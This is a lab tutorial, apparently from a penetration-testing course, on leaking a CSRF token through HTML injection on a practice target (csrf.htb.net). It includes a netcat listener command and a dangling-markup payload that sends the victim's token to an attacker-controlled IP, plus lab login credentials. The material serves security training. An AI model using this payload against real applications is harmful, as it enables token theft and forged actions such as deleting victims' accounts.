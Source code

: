 # Cross-Site Request Forgery (POST-based)

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: heavycat106
* Password: rocknrol

This is an account that we created to look at the application's functionality.

After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Let us first instruct Netcat to listen on port 8000, as follows.

```shell-session
$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Since the attack was successful against our test account, we can do the same against any account of our choosing.

We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

Next, we will cover how you can chain XSS and CSRF to attack a user's session.
